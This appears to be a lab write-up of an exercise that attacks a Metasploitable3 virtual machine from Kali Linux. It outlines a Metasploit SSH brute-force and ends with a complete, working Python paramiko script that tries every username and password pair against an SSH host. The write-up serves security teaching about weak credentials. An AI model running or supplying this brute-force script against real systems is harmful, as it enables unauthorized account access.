








# Phase 1 – Vulnerability Identification and Exploitation

In this phase, we set up the attacker and victim machines, scanned for open ports, and launched brute-force attacks to exploit SSH login using Metasploit and a custom Python script.  
The objective was to demonstrate how weak credentials can be discovered and used to gain unauthorized access.

---

## Step 1: Configure the Environment

We configured the virtual machines using VirtualBox:
- The **victim** machine is Metasploitable3.
- The **attacker** machine is Kali Linux.

Connectivity was verified between the two machines.

### 1. Victim Machine Login

---

### 2. Victim IP Configuration
")
---

### 3. Attacker-to-Victim Ping

---

### 4. Attacker IP Check

---

## Step 2: Use Metasploit to Perform Brute-Force

We used Metasploit's `scanner/ssh/ssh_login` module to perform a brute-force attack.

### 5. Launching Metasploit Console

---

### 6. Searching for SSH Login Module

---

### 7. Setting SSH Brute-force Parameters

---

### 8. Successful SSH Login using Metasploit

---

### 9. Active Session Opened

---

## Step 3: Implement a Custom Script

We also wrote a Python script using the `paramiko` library to perform the attack.

### 10. Custom Python Script Brute-force

```python
import paramiko
import socket

target_ip = "192.168.150.3"
target_port = 22

with open("usernames.txt", "r") as ufile:
    usernames = [line.strip() for line in ufile.readlines()]

with open("passwords.txt", "r") as pfile:
    passwords = [line.strip() for line in pfile.readlines()]

def ssh_connect(username, password, ip, port):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        client.connect(ip, port=port, username=username, password=password, timeout=5)
        print(f"[+] Success! Username: {username} Password: {password}")
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Failed login with {username}:{password}")
        return False
    except socket.error as e:
        print(f"[!] Connection error: {e}")
        return False
    finally:
        client.close()

for username in usernames:
    for password in passwords:
        if ssh_connect(username, password, target_ip, target_port):
            exit()
```


---
